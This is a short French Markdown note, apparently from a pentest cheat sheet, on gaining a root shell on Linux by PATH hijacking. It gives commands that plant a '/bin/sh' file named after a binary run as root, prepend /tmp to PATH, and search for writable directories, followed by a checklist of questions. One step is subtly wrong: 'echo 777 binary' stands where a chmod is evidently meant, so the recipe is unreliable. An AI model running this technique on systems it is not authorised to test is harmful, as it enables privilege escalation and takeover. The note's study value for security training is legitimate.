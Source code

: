 # PATH

PATH sous Linux est une variable d'environnement qui indique au système d'exploitation où rechercher les exécutables.

## Exploitation

Lorsque un binaire est exécuté sans chemin complet (chemin relative) et que ce binaire s'exécute avec les privilèges de l'utilisateur root, nous pouvons manipuler notre chemin pour obtenir un shell root.
 
Cela en creant le meme binaire contenant un script malveillant et renommer la variable $PATH pour modifier les chemins d'executable.


```sh
echo $PATH
```

```sh
echo '/bin/sh' > binary
echo 777 binary
export PATH=/tmp:$PATH
```

Les questions a ce poser avant d'exploiter cette vulnérabilité :

1. Quels dossiers se trouvent sous $PATH ?
2. Votre utilisateur actuel dispose-t-il de privilèges d'écriture pour l'un de ces dossiers ?
3. Pouvez-vous modifier $PATH ?
4. Existe-t-il un script/une application que vous pouvez démarrer et qui sera affecté par cette vulnérabilité ?

```sh
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```